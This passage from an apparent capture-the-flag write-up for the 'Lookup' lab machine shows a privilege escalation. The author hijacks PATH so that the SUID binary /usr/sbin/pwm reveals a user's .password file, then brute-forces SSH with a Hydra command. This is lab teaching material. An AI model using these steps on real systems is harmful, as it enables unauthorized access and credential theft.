 Now we can run the ```pwm``` command again:
```bash
www-data@lookup:/$ ./usr/sbin/pwm
./usr/sbin/pwm
[!] Running 'id' command to extract the username and user ID (UID)
[!] ID: think
```

![alt text](https://github.com/Kyd0s/Kyd0s.github.io/blob/main/assets/pwm-enum.png?raw=true)

We tricked ```/usr/sbin/pwm``` to use the ```id``` command that we have created and placed in ```/tmp/id``` after being added to ```$PATH``` env variable. We save the results of the ```.password``` file on our attack machine and we call it ```passwords.txt```

---

Why does this work?

The key for this exploit is in ```[!] Running 'id' command to extract the username and user ID (UID)```: Because ```id``` being run using the ```$PATH``` variable instead of being set as absolute path, allows an attacker to create a malicious file with the same name into a writable directory and prepend that directory to ```$PATH```.

---

# Pivot to user think

Now that we have a valid user and we were able to read the .password file, we can attempt to ```brute force```  SSH login, using ```Hydra``` to get confirmation that credentials are valind and we can connect to the target.
```bash
hydra -l think -P passwords.txt -t 4 ssh://lookup.thm -v
```
![alt text](https://github.com/Kyd0s/Kyd0s.github.io/blob/main/assets/Hydra-PasswordSpray-Lookup.png?raw=true)
